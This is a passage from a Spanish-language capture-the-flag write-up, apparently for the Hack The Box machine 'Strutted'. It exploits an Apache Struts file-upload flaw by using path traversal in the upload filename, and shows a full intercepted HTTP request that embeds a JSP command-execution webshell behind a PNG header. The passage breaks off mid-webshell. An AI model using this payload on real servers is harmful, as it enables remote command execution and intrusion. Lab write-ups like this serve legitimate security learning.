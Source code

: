 Veremos algo bastante interesante entre estas dos cosas, vemos que el `software` de `Struts` es vulnerable por la version conocida como `6.3.0.1` que vemos en el `pom.xml`, si buscamos informacion veremos que en este repositorio esta el `PoC`.

URL = [Exploit Upload File CVE-2024-53677](https://github.com/Trackflaw/CVE-2023-50164-ApacheStruts2-Docker/tree/main)

Por lo que vemos nos da unas instrucciones de como se debe subir un archivo y modificarlo añadiendo el siguiente `payload`:

```
-----------------------------<NUMBERS>
Content-Disposition: form-data; name="top.uploadFileName"

../../webshell.jsp
-----------------------------<NUMBERS>--
```

Lo que tenemos que hacer es descargarnos una imagen real, despues la vamos a subir en la pagina donde pone `upload`, pero antes de subirla abriremos `BurpSuite` y capturaremos la peticion poniendonos en mitad de la escucha:

Una vez capturada tendremos que cambiar la peticion algo asi:

```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------265904619834939401522208686854
Content-Length: 4674
Origin: http://strutted.htb
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=4BF9A5A9635E410E8ADDC01CEB19E451
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------265904619834939401522208686854

Content-Disposition: form-data; name="Upload"; filename="img.png"

Content-Type: image/png

PNG



<%@ page import="java.util.*,java.io.*"%>
<%
    //
    // JSP_KIT
    //
    // cmd.jsp = Command Execution (unix)
    //
    // by: Unknown
    // modified: 27/06/2003
    //
%>
<HTML><BODY>
<FORM METHOD="GET" NAME="myform" ACTION="">
<INPUT TYPE="text" NAME="cmd">
<INPUT TYPE="submit" VALUE="Send">
</FORM>
```